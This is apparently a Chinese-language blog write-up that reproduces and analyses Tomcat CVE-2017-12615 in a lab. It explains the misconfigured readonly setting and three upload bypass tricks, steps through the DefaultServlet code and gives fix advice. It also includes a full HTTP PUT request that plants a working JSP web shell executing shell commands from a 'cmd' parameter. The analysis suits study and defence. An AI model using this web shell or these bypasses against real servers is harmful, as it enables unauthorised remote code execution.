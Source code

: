 ```yaml
---
layout: post
title: "Tomcat(CVE-2017-12615)漏洞复现与分析"
date: 2022-01-20
author: 2hanx
toc: true
categories: [漏洞复现,漏洞分析]
tags: [ "Tomcat", "CVE-2017-12615" ]
---
```


### 应用介绍

Tomcat 是 Apache 软件基金会（Apache Software Foundation）的Jakarta  项目中的一个核心项目，由Apache、Sun 和其他一些公司及个人共同开发而成。由于有了Sun 的参与和支持，最新的Servlet 和JSP  规范总是能在Tomcat 中得到体现，Tomcat 5支持最新的 Servlet 2.4 和JSP 2.0 规范。因为Tomcat  技术先进、性能稳定，而且免费，因而深受Java 爱好者的喜爱并得到了部分软件开发商的认可，成为目前比较流行的Web 应用服务器。另外，Tomcat 和 IIS 等Web服务器一样，具有处理HTML页面的功能，另外它还是一个Servlet和JSP容器，独立的Servlet容器是Tomcat的默认模式。不过，Tomcat处理静态HTML的能力不如Apache服务器。目前Tomcat最新版本为[10.0.14](https://tomcat.apache.org/)。

### 漏洞介绍

在 Tomcat 官网页面，整理出历史以来存在的[漏洞](https://tomcat.apache.org/security.html)，这里只进行 CVE-2017-12615 的漏洞复现。

![1]({{ '/tomcat/1.png' | prepend: site.url }})

从上图可知，该漏洞存在的原因是 Tomcat 配置不当，造成攻击者可通过上传 JSP 文件从而造成RCE。

影响范围是 7.0.0 到 7.0.79。

### 漏洞危害

任意文件写入，RCE。

### 漏洞原理

由于 Tomcat 配置不当，将配置文件 *conf/web.xml* 中的 `readonly` 设置成 `false` （默认设置为 `true`）时，导致可以使用 *PUT* 方法上传任意文件。

### 环境搭建

通过 vulhub 上的环境进行复现，使用 `docker-compose` 命令配置环境即可。

| 计算机 | IP                |
| ------ | ----------------- |
| Kali   | `192.168.174.128` |
| Win10  | `192.168.174.1`   |
| Victim | `192.168.174.141` |

### 漏洞复现

配置好环境后访问 Victim 的 *8080* 端口，看到 Tomcat 的版本是 **8.5.19**。

![2]({{ '/tomcat/2.png' | prepend: site.url }})

访问默认页面使用的是 *GET* 方法，试试用 *PUT* 方法写入一个文件时返回 **201**。

![3]({{ '/tomcat/3.png' | prepend: site.url }})

在 Victim docker 容器中可以看到已成功创建 *a.txt* 文件。

```shell
root@eeca7819c871:/usr/local/tomcat/webapps/ROOT# cat a.txt
gg
```

不过在上传 JSP 文件时返回 **404** 状态码，并且上传不成功，这里我们就需要进行绕过，有以下三种方法：

1. `PUT /a.jsp%20 HTTP/1.1` 

   因为 **Windows 上不允许文件以空格结尾**，上传到 Windows 会被自动去掉末尾空格，在 linux 上不能自动去掉末尾空格

2. `PUT /a.jsp::$DATA HTTP/1.1`

   Windows 上 NTFS 流

3. `PUT /a.jsp/ HTTP/1.1`

   `/` 在文件名中是非法的，上传后会被去除（Linux/Windows）

因为这里是 linux 环境，就采用第三种方法进行上传文件绕过，请求包如下：

```http
PUT /d.jsp/ HTTP/1.1
Host: 192.168.174.141:8080
Cache-Control: max-age=0
DNT: 1
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/97.0.4692.71 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9,en;q=0.8
Connection: close
Content-Length: 509

<%new javax.script.ScriptEngineManager().getEngineByName("nashorn").eval("s=[3];s[0]='/bin/bash';s[1]='-c';s[2]=request.getParameter(\"cmd\");process=java.lang.Runtime.getRuntime().exec(s);process.waitFor();inputStream=process.getInputStream();var ByteArray=Java.type('byte[]');var bytes=new ByteArray(inputStream.available());inputStream.read(bytes);response.getOutputStream().write(bytes);", new javax.script.SimpleBindings(new java.util.HashMap() {{put("response", response);put("request", request);}}));%>
```

### 漏洞分析

在IDEA中调试 Tomcat 源码，环境配置可[参考这篇文章](https://blog.2hanx.site/posts/idea2tomcat/)。之前我们在 *conf/web.xml* 文件中添加了 `readonly`，并且其中涉及到 *DefaultServlet* 和 *JspServlet*，*DefaultServlet* 的作用是处理静态文件 ，*JspServlet* 的作用是处理 jsp 与 jspx 文件的请求，默认配置情况是：

![5]({{ '/tomcat/5.png' | prepend: site.url }})

jsp 和 jspx 默认是由 *org.apache.jasper.servlet.JspServlet* 处理，其他默认是由 *org.apache.catalina.servlets.DefaultServlet* 处理。因此我们在 *org.apache.catalina.servlets.DefaultServlet.doPut* 方法处下断点（文件路径在项目根目录下：*src/main/java/org/apache/catalina/servlets/DefaultServlet.java*）。

![6]({{ '/tomcat/6.png' | prepend: site.url }})

之后进行 debug 调试启动（点击小虫），我们发起 PUT 请求时IDEA将会停止在断点处。

```http
PUT /5.jsp/ HTTP/1.1
Host: localhost:8081
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:96.0) Gecko/20100101 Firefox/96.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8
Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2
Accept-Encoding: gzip, deflate
DNT: 1
Connection: close
Cookie: JSESSIONID=A72ED10A13E6044296FB5B3C1FAA318E
Upgrade-Insecure-Requests: 1
Sec-Fetch-Dest: document
Sec-Fetch-Mode: navigate
Sec-Fetch-Site: none
Sec-Fetch-User: ?1
Cache-Control: max-age=0
Content-Length: 3

gga
```

![7]({{ '/tomcat/7.png' | prepend: site.url }})

跟进代码，这里进行文件写入，可以看到目前文件名是 */5.jsp/*。

![8]({{ '/tomcat/8.png' | prepend: site.url }})

之后跟进到 `rebind()` 方法，可以看到写入文件时去掉了末尾的 */*， 最后成功创建文件。

![9]({{ '/tomcat/9.png' | prepend: site.url }})

### 漏洞验证

编写 python 脚本实现上述操作，具体可查看[这里](https://github.com/2hanX/poc-exp/blob/main/tomcat/CVE-2017-12615/poc_cve-2017-12615.py)。

也可以使用 Xray 进行批量漏洞验证，通过查看它的 POC 文件，我们知道他也是将我们上述的操作自动化执行，并且也会在服务器上创建文件。

![4]({{ '/tomcat/4.png' | prepend: site.url }})

### 修复建议

1. 检查配置文件，设置 `readonly` 为 `True` ;
2. 更新到最新版本。

### 总结

上传 JSP 文件的三种绕过方式。

### Ref.

- [https://mp.weixin.qq.com/s/MpO67u2voXBVQgISDq9g6Q](https://mp.weixin.qq.com/s/MpO67u2voXBVQgISDq9g6Q)
- [https://paper.seebug.org/399/](https://paper.seebug.org/399/)

